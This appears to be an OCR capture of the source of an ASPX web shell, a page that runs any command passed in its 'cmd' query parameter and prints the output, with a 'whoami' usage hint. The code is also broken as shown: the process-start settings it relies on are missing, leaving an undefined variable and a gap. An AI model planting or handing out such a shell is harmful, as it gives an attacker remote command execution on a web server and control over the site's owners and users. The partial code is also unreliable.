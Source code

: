<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
    protected void Page_Load(object sender, EventArgs e)
    {
        string cmd = Request.QueryString["cmd"];
        if (!string.IsNullOrEmpty(cmd))
        {
     

            Process process = Process.Start(psi);
            StreamReader reader = process.StandardOutput;
            string output = reader.ReadToEnd();
            Response.Write("<pre>" + output + "</pre>");
        }
        else
        {
            Response.Write("Usage: ?cmd=whoami");
        }
    }
</script>
<!DOCTYPE html>
<html>
<head>
    <title>ASPX Command Execution</title>
</head>
<body>
    <h1>Command Execution</h1>
</body>
</html>
